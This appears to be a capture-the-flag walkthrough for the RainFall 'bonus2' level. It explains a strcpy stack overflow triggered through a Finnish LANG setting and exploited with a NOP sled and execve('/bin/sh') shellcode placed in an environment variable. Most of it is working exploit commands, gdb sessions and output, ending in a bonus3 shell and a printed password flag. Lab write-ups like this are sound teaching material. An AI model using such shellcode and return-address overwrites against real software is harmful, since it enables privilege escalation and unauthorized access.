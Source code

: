 # Walkthrough

## Solution

```
export LANG=`python -c "print('fi' + '\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`

./bonus2 $(python -c "print '\x90' * 40") $(python -c "print '\x90' * 18 + '\xab\xfe\xff\xbf'")
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## Explanation

### Execution

```
bonus2@RainFall:~$ ./bonus2 
bonus2@RainFall:~$ ./bonus2 hello
bonus2@RainFall:~$ ./bonus2 hello you
Hello hello
bonus2@RainFall:~$ ./bonus2 hello you bonjour
bonus2@RainFall:~$ ./bonus2 hello bonjour
Hello hello
bonus2@RainFall:~$ ./bonus2 bon jour
Hello bon
```  
-> The program seems to take 2 args, concatenate Hello with argv[1].

### Disassembly

```
info var
0x08049988  language

info function
0x08048484  greetuser
0x08048529  main
```  

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

#### Steps

- Find overflow offset of strcpy:  
--> with LANG="**en**"  
```
(gdb) run $(python -c "print '\x90' * 40") Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/bonus2/bonus2 0123456789012345678901234567890123456789 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5A
Hello 0123456789012345678901234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```
-> no offset found  

--> with LANG="**fi**"  
```
(gdb) run $(python -c "print '\x90' * 40") Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/bonus2/bonus2 0123456789012345678901234567890123456789 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Hyvää päivää 0123456789012345678901234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```  
--> **offset is at 18**  
> We can use LANG="fi" to overflow strcpy:

- Export our payload to the LANG env variable  
```
export LANG=`python -c "print('fi' + '\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```  
- Find the LANG env variable address  
```
(gdb) break main
(gdb) run
(gdb) x/s *((char **)environ+11) (to find the LANG address)
0xbffffe9b:	 "LANG=fi\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f\315\200\061\333\211\330@\315\200\350\334\377\377\377/bin/sh"
```  

- Take an address with a NOP, so that it will slide into the shellcode  
```
(gdb) x/16wx 0xbffffe9b
0xbffffe9b:	0x474e414c	0x9069663d	0x90909090	0x90909090
0xbffffeab:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffebb:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffecb:	0x90909090	0x90909090	0x90909090	0x90909090
```  
--> let's take 0xbffffeab  

- **Final command**  
```
bonus2@RainFall:~$ ./bonus2 $(python -c "print '\x90' * 40") $(python -c "print '\x90' * 18 + '\xab\xfe\xff\xbf'")
Hyvää päivää ��������������������������������������������������������������
$ pwd
/home/user/bonus2
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
